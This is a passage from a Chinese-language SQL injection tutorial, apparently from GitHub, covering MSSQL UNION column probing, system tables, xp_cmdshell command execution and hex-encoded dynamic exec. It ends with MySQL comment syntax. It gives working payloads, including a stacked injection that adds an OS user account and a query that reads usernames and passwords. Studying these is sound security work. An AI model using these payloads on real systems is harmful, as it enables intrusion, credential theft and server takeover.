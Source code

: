 ### 四、UNION查询
UNION关键字将两个或更多个查询结果组合为单个结果集，俗称联合查询。    
有两个基本规则：所有查询中的列数必须相同；数据类型必须兼容。         
#### 4.1 联合查询探测字段数
递归查询，知道无错误产生，可得知User表查询的字段数：  
```sql
union select null,null
union select null,null,null
```   
也有人喜欢使用select 1,2,3语句，不过该语句容易出现类型不兼容的异常。
#### 4.2 联合查询敏感信息
如果得知列数为4，可以使用以下语句继续注入
```sql
id=5 union select 'x',null,null,null from sysobject where xtype='U'
```  
递归更换x的位置，直到语句执行正常，代表数据类型兼容，就可以将x换为SQL语句，查询敏感信息。             
备注：UNION和UNION ALL最大的区别在于UNION会自动去除重复的数据，并且按照默认规则排序。             

### 五、函数
SQL Server提供了非常多的系统函数，利用该系统函数可以访问SQL Server系统表中的信息，而无须使用SQL语句查询。           
例如，select db_name()：返回数据库名称               

### 六、危险的存储过程
存储过程（Stored Procedure）是在大型数据库系统中为了完成特定功能的一组SQL“函数”，如：执行系统命令，查看注册表，读取磁盘目录等。             
攻击者最常使用的存储过程是“xp_cmdshell”，这个存储过程允许用户执行操作系统命令。                 
例如：http://www.secbug.org/test.aspx?id=1存在注入点，那么攻击者就可以实施命令攻击：                     
http://www.secbug.org/test.aspx?id=1;exec xp_cmdshell 'net user test test /add'              
最终执行SQL语句如下：
```sql
select * from table where id=1; exec xp_cmdshell 'net user test test /add'
``` 
攻击者可以直接利用xp_cmdshell操纵服务器。       
注：并不是任何数据库用户都可以使用此类存储过程，用户必须持有 CONTROL SERVER权限。            

存储过程仅存在于MSSQL和Oracle中，MySQL中类似的功能是UDF。             


### 七、动态执行
SQL Server支持动态执行语句，用户可以提交一个字符串来执行SQL语句。            
exec('select username,password from users')              
也可以通过定义十六进制的SQL语句，使用exec函数执行。          
declare @query varchar(888)         
select @query=0x73656c6563742031       
exec(@query)



## 2.mysql
### 一、mysql中的注释
```sql
①：#：行注释。

②：--：行注释，不同的是这个注释后要跟一个或多个空格，或者tag。

③：/**/：块注释，也是多行注释。
```
